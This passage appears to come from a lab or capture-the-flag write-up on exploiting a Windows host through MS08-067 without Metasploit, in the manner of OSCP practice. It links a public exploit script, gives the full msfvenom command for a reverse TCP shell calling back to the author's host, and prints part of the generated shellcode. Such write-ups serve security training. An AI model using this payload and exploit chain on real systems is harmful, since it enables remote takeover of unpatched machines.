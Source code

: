     Nmap done: 1 IP address (1 host up) scanned in 5.49 seconds
    

It looks like this box is vulnerable to two infamous SMB exploits, MS-08-067
(made famous by Conficker) and MS-17-010 (made famous by Shadow Brokers).

## System Shell

### Overview

Both of these vulnerabilities give a shell as system. Both also have
Metasploit modules that are basically automatic pwns. But to make this
interesting (and relevant to anyone doing PWK / OSCP), I’ll show how to do
each without Metasploit.

### MS-08-067

#### Locate Exploit

I’ll use the exploit from jivoi on Github
[here](https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py).
It’s a python script that requires Impacket (which comes installed on Kali)
and for me to replace the default shellcode with some of my own.
(Interestingly, the default is a reverse TCP shell to 10.11.0.157… looks like
the author may have been in PWK.)

#### Shellcode Generation

To make the shellcode, I’ll use `msfvenom`. I’ll copy the bad characters list
(`-b`) from the examples in the exploit code. I’ll use the following
parameters:

  * `-p windows/shell_reverse_tcp` \- This will connect back to me with a shell. Because I used `shell_reverse_tcp` it is unstaged, meaning the entire shell is in this code, and I can catch the callback with `nc`. Had I used `shell/reverse_tcp`, that would be a staged payload, and I’d need to use Metasploits `exploit/multi/handler` to get the callback.
  * `LHOST=10.10.14.14 LPORT=443 EXITFUNC=thread` \- defining the variables for the payload - my ip, the port, and how to exit.
  * `-b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40"` \- The bad characters not to use. I got this from the comments in the python code.
  * `-f py` \- Output in python format. The examples use c format, and just pasted it in slightly differently. Either will work.
  * `-v shellcode` \- Have the code set the variable `shellcode`, instead of the default, `buf`. I want this to match what it’s called in the code I’m using.
  * `-a x86` and `--platform windows` \- Describing the environment I’m attacking.

    
    
    root@kali# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
    Found 11 compatible encoders
    Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
    Attempting to encode payload with 1 iterations of generic/none
    generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
    Attempting to encode payload with 1 iterations of x86/call4_dword_xor
    x86/call4_dword_xor succeeded with size 348 (iteration=0)
    x86/call4_dword_xor chosen with final size 348
    Payload size: 348 bytes
    Final size of py file: 1872 bytes
    shellcode =  ""
    shellcode += "\x2b\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e"
    shellcode += "\x81\x76\x0e\x92\xab\xaa\xc8\x83\xee\xfc\xe2\xf4"
    shellcode += "\x6e\x43\x28\xc8\x92\xab\xca\x41\x77\x9a\x6a\xac"
    shellcode += "\x19\xfb\x9a\x43\xc0\xa7\x21\x9a\x86\x20\xd8\xe0"
    shellcode += "\x9d\x1c\xe0\xee\xa3\x54\x06\xf4\xf3\xd7\xa8\xe4"
    shellcode += "\xb2\x6a\x65\xc5\x93\x6c\x48\x3a\xc0\xfc\x21\x9a"